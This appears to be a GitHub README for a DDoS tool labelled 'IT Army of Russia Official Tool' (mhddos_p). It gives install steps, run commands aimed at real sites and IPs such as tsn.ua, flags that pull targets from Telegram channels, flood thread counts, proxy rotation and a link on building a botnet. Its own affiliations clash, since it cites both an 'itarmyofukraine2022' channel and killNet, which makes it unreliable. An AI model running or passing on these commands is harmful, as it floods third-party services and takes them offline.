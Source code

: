 ## IT Army of Russia Official Tool

### Use flag `--lang en` to enable English translation

- Built-in proxy server database with a wide range of IPs around the world
- Possibility to set a huge number of targets with automatic load balancing
- A variety of different load-testing methods
- Effective utilization of your resources due to the asynchronous architecture

### ⏱ Recent updates

- **24.05.2022** Added auto-update option - see [Running](#2--running-different-options-for-targets-are-given)
- **21.05.2022** Added english localization - use flag `--lang EN` (more languages may be added later)
- **18.05.2022** Added `--copies` option in order to run multiple copies (recommended for use with 4+ CPUs and network > 100 Mb / s).
- **15.05.2022** Completely updated asynchronous version, which ensures maximum efficiency and minimum load on the system

### 1. 💽 Installation

#### Extended instructions (RU only so far) - [click here](/docs/installation.md)

#### Python (if it doesn't work, try `python` or `python3.10` instead of `python3`)

Requires python >= 3.8 and git

    git clone https://github.com/BionecX/mhddos_p.git
    cd mhddos_p
    python3 -m pip install -r requirements.txt

#### Docker

Install and start Docker: https://docs.docker.com/desktop/#download-and-install

### 2. 🕹 Running (different options for targets are given)

#### Python with automatic updates (if it doesn't work, try `python` or `python3.10` instead of `python3`)

    ./runner.sh python3 https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Python (manual updates required) (if it doesn't work, try `python` or `python3.10` instead of `python3`)

    python3 runner.py https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Docker (for Linux, add sudo in front of the command)

    docker run -it --rm --pull always ghcr.io/BionecX/mhddos_p https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

### 3. 🛠 Options (check out more in the [CLI](#cli) section)

All options can be combined, you can specify them either before and after the list of targets

- Consider adding your IP/VPN to the attack (especially when running on dedicated server), add flag `--vpn`
- To use targets provided by https://t.me/killNet, add the `--itarmy` flag  
- Number of threads: `-t XXXX` - the default is 7500 (or 1000 if the machine has only one CPU).
- Number of copies: `--copies X` - in case you have 4+ CPU and stable network > 100 Mb/s

### 4. 📌 Help with finding new proxies for mhddos_p
The script itself and installation instructions are here: https://github.com/BionecX/proxy_finder

### 5. 🐳 Community (mostly in Russia)
- [Create a botnet of 30+ free and standalone Linux servers](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5ccc)
- [Detailed analysis of mhddos_p and installation instructions](docs/installation.md)
- [Analysis of mhddos_p](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-0111)
- [Example of running via docker on OpenWRT](https://youtu.be/MlL6fuDcWlIII)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b5444)

### 6. CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
     optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 7500     Number of threads (default is 7500 if CPU > 1, 1000 otherwise)
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --debug                Detailed log for each target
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --copies 1             Number of copies to run (default is 1)
      --lang {en,ua}         Select language (default is ua)

### 7. Custom proxies

#### File format (any of the following):

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password

where `protocol` can be one of 3 options: `http`|`socks4`|`socks5`. 
If `protocol` is not specified, default value `http` is used.
For example, for a public `socks4` proxy the format will be fhe following:

    socks4://114.231.123.38:3065

and for the private `socks4` proxy format can be one of the following:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065

**URL of the remote file for Python and Docker**

    --proxies https://pastebin.com/raw/UkFWzLOt

where https://pastebin.com/raw/UkFWzLOt is your web page with a list of proxies (each proxy should be on a new line)  

**Path for the local file for Python**  
  
Put the file in the folder with `runner.py` and add the following option to the command (replace `proxies.txt` with the name of your file)

    --proxies proxies.txt https://tsn.ua

where `proxies.txt` is your proxy list file (each proxy should be on a new line)
